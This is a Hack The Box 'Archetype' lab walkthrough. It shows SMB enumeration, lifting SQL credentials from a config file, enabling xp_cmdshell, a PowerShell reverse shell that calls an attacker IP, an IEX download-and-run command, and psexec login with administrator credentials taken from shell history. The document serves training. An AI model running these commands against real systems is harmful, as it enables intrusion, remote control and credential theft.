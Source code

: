 ```yaml
---
title: HTB - Archetype Walkthrough
date: 2021-08-08 19:35:10
tags: [WalkThrough, HTB, Penetration Testing]
---
```


# Enumeration
## Scan for opening ports
```
nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// >> ports.txt

tr: change \n to ,
sed s/,$ replace the last `,` to empty
```
more detailed scan
```
nmap -sC -sV -p`cat ports.txt` 10.10.10.27
```
Results:
```
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s Microsoft SQL Server 2017 
5985/tcp  open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc        Microsoft Windows RPC
49665/tcp filtered unknown
49667/tcp open     msrpc        Microsoft Windows RPC
49668/tcp open     msrpc        Microsoft Windows RPC
49669/tcp closed   unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
```
Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack. Using TCP allows SMB to work over the internet.
```
445 are open (file sharing smb)

check anonymous login
```
smbclient -N -L \\\\10.10.10.27 
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC

-N: dot not ask for password
-L: list shares
```

```
smbclient -N \\\\10.10.10.27\\backups
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

		10328063 blocks of size 4096. 8248806 blocks available
get prod.dtsConfig
```

A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages.

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

port 1433 is default port for ms-sql-s

```
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

```

entered the database

check weather the current user has system level privilege

```
SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
              

-----------   

          1 
```

change configuration to make xp_cmdshell available:
https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql?view=sql-server-ver15

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```
xp_cmdshell:
https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15

powershell reverse shell:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
reverseshell.ps

$client = New-Object System.Net.Sockets.TCPClient('10.10.14.73',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.73",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

open a webserver for servering the file

```
python3 -m http.server 80

listening for the reverse shell:
nc -vnlp 4242
```

in sql execute:
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.73/ps_shell2.ps1\");"
```

not sure why the first script get blocked by antivirus software

the flag file stored in :C:\Users\sql_svc\Desktop\user.txt



privilege escalation:

find frequent accessed file or commands:
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

```

https://en.wikipedia.org/wiki/Net_(command)
```
use: Connect/disconnect computer to/from shared resources, or display information about computer connections

```

connect to the admin user and look at the desktop

```
psexec.py administrator@10.10.10.27

cd C:\Users\administrator\Desktop
```

to use psexec, port445 need to open 

Prerequisites:
- A modern Windows computer (local)
- File and Printer Sharing open (remote computer, TCP port 445)
- The admin$ administrative share available (remote computer)
- You know a local account’s credential (remote computer)